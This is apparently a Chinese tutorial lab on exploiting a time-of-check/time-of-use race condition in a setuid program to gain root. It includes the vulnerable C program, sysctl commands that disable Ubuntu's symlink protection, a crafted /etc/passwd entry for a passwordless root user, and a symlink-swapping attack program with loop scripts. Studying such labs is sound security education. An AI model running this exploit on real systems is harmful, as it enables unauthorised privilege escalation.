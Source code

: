 # 竟态条件漏洞背景

竟态条件是指一个系统或程序的输出结果取决于其他不可控制事件执行的时间顺序。  
就是多线程并发时，由于检查时间和使用时间的影响，没有锁住唯一资源导致  

## 准备有漏洞的程序

```c
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
    
    scanf("%50s", buffer);
    if (!access(fn, W_OK))
    {
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
    
    return 0;
}
```
![变成setuid程序](../img/race-vulp.png)

!!! 禁用保护措施

    因为许多竟态条件攻击与/tmp目录中的符号链接文件有关，所以ubuntu采用一种保护措施来限制一个程序
    是否可以使用一个全局可写目录中的符号链接（如/tmp）。要想攻击成功，必须关闭该保护措施。  
    ubuntu 12：  sudo sysctl -w kernel.yama.protected_sticky_symlinks=0  
    ubuntu 14/16： sudo sysctl -w fs.protected_symlinks=0  
    
## 确定攻击目的

```bash
root:x:0:0:root:/bin/bash
```
![解读passwd](../img/race-passwd.png)
上面这个x，表示密码存储在/etc/shadow文件中

!!! ubuntu中的特殊密码

    LiveCD能够使你在不安装到硬盘的前提下，体验操作系统。ubuntu的LiveCD使用了一个特殊的密码，
    值是U6aMy0wojraho，在系统提示输入密码时，回车即可。

本攻击目的是修改/etc/passwd文件，创建一个有root权限并且不需要密码保护的账户，构造如下：
```bash
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```
把以上字符串保存在passwd_input文件中

## 准备攻击程序

为了攻击竟态条件漏洞，需要产生两个互相竞争的进程。分别为目标进程和攻击进程。

目标进程target_process.sh
```bash
#!/bin/sh

while :
do 
    ./vulp < passwd_input
done
```

攻击进程attack_process.c
```c
#include <unistd.h>

int main()
{
    while(1)
    {
        unlink("/tmp/XYZ");
        symlink("/dev/null", "/tmp/XYZ");
        usleep(1000);
        
        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}
```
![编译attack程序](../img/race-attack.png)

为了检测攻击是否成功，需要检查密码文件中的时间戳，查看它是否被修改过，改进代码：
```bash
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do 
    ./vulp < passwd_input
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

## 发动攻击

在窗口1启动攻击进程：
![启动攻击进程](../img/race-attack1.png)

在窗口2启动目标进程：
```bash
bash target_process.sh
```
![启动目标进程](../img/race-target.png)

/etc/passwd文件已经新增了一行
![验证攻击](../img/race-attack2.png)
可见新增了一个root权限的test用户，攻击成功 &#x1F44D;&#x1F44D;&#x1F44D;

!!! Note

    如果攻击失败，尝试修改usleep的时间，检查/tmp/XYZ的拥有者如为root，则需要删除
    sudo rm /tmp/XYZ，之后重试